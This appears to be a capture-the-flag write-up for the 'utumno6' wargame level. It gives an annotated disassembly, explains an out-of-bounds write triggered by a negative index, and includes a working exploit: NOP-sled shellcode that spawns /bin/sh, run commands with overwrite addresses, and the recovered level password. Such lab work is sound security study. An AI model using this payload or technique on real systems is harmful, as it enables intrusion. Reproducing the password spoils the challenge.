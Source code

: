 disassembly:
```assembly
   0x080484db <+0>:	push   ebp
   0x080484dc <+1>:	mov    ebp,esp
   0x080484de <+3>:	sub    esp,0x34
   0x080484e1 <+6>:	cmp    DWORD PTR [ebp+0x8],0x2		#must use at least 2 params
   0x080484e5 <+10>:	jg     0x80484fb <main+32>
   0x080484e7 <+12>:	push   0x8048630
   0x080484ec <+17>:	call   0x8048390 <puts@plt>
   0x080484f1 <+22>:	add    esp,0x4
   0x080484f4 <+25>:	push   0x1
   0x080484f6 <+27>:	call   0x80483a0 <exit@plt>
   0x080484fb <+32>:	push   0x20
   0x080484fd <+34>:	call   0x8048380 <malloc@plt>		#continue here, just malloc
   0x08048502 <+39>:	add    esp,0x4
   0x08048505 <+42>:	mov    DWORD PTR [ebp-0x34],eax
   0x08048508 <+45>:	mov    eax,DWORD PTR [ebp-0x34]
   0x0804850b <+48>:	test   eax,eax				#test means logical AND
   0x0804850d <+50>:	jne    0x8048523 <main+72>		#usually it jumps
   0x0804850f <+52>:	push   0x804863d
   0x08048514 <+57>:	call   0x8048390 <puts@plt>
   0x08048519 <+62>:	add    esp,0x4
   0x0804851c <+65>:	push   0x1
   0x0804851e <+67>:	call   0x80483a0 <exit@plt>
   0x08048523 <+72>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048526 <+75>:	add    eax,0x8
   0x08048529 <+78>:	mov    eax,DWORD PTR [eax]
   0x0804852b <+80>:	push   0x10				# 0x10 = 16 --> base 16
   0x0804852d <+82>:	push   0x0
   0x0804852f <+84>:	push   eax
   0x08048530 <+85>:	call   0x80483b0 <strtoul@plt>		#convert string to long unsigned int
   0x08048535 <+90>:	add    esp,0xc				#base 16
   0x08048538 <+93>:	mov    DWORD PTR [ebp-0x4],eax
   0x0804853b <+96>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804853e <+99>:	add    eax,0x4
   0x08048541 <+102>:	mov    eax,DWORD PTR [eax]
   0x08048543 <+104>:	push   0xa				# 0xa = 10 --> base 10
   0x08048545 <+106>:	push   0x0
   0x08048547 <+108>:	push   eax
   0x08048548 <+109>:	call   0x80483b0 <strtoul@plt>		#convert to base 10
   0x0804854d <+114>:	add    esp,0xc
   0x08048550 <+117>:	mov    DWORD PTR [ebp-0x8],eax
   0x08048553 <+120>:	cmp    DWORD PTR [ebp-0x8],0xa		#compare the result with 10
   0x08048557 <+124>:	jle    0x804856d <main+146>		#if lower equal, jump
   0x08048559 <+126>:	push   0x804865c
   0x0804855e <+131>:	call   0x8048390 <puts@plt>
   0x08048563 <+136>:	add    esp,0x4
   0x08048566 <+139>:	push   0x1
   0x08048568 <+141>:	call   0x80483a0 <exit@plt>
   0x0804856d <+146>:	mov    eax,DWORD PTR [ebp-0x8]		#continue here #arg1 value
   0x08048570 <+149>:	mov    edx,DWORD PTR [ebp-0x4]		#arg2 value
   0x08048573 <+152>:	mov    DWORD PTR [ebp+eax*4-0x30],edx	#write arg2 to some memory dependent on
   0x08048577 <+156>:	mov    eax,DWORD PTR [ebp+0xc]		#arg1 --> ebp-30+4*arg1
   0x0804857a <+159>:	add    eax,0xc				#this is exploitable
   0x0804857d <+162>:	mov    edx,DWORD PTR [eax]
   0x0804857f <+164>:	mov    eax,DWORD PTR [ebp-0x34]
   0x08048582 <+167>:	push   edx
   0x08048583 <+168>:	push   eax
   0x08048584 <+169>:	call   0x8048370 <strcpy@plt>		#strcpy from arg3 to some memory(ebp-0x34)
   0x08048589 <+174>:	add    esp,0x8				#near instructions --> ebp-34 has some 
   0x0804858c <+177>:	mov    edx,DWORD PTR [ebp-0x34]		#fixed value, but we can overwrite
   0x0804858f <+180>:	mov    eax,DWORD PTR [ebp-0x8]
   0x08048592 <+183>:	mov    eax,DWORD PTR [ebp+eax*4-0x30]
   0x08048596 <+187>:	push   edx
   0x08048597 <+188>:	push   eax
   0x08048598 <+189>:	push   DWORD PTR [ebp-0x8]
   0x0804859b <+192>:	push   0x8048684
   0x080485a0 <+197>:	call   0x8048360 <printf@plt>		#printf of arg3-local-copy and arg2(in hex
   0x080485a5 <+202>:	add    esp,0x10				# and not in hex)
   0x080485a8 <+205>:	mov    eax,0x0
   0x080485ad <+210>:	leave  
   0x080485ae <+211>:	ret
   ```

we notice that by inserting certain values, we can overwrite unwanted memory (intended 0 to 10 addrs
in the stack -> ebp-30 to ebp-30+40 --> ebp + (-30 to -10)
but by entering eax = 0xffffffff (-1) we get the addr ebp-34!!!!
its the address of the const str, that we write arg3 to!

so using: r -1 0x(addr) --somethingToWrite--(address)

max unsigned int value: 4294967296 - 1 --> 4294967295 = -1

export EGG= $(python -c 'print "\x90"*100+"\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"+"\x90"*50')
r -1 ffffd5fc $(python -c 'print "\x18\xde\xff\xff"')
running this not in gdb, it exits normally, so we must change our write address...
for me + 0x30 worked!

for run version: 
./utumno6 -1 ffffd62c $(python -c 'print "\x18\xde\xff\xff"')

we get:
totiquegae




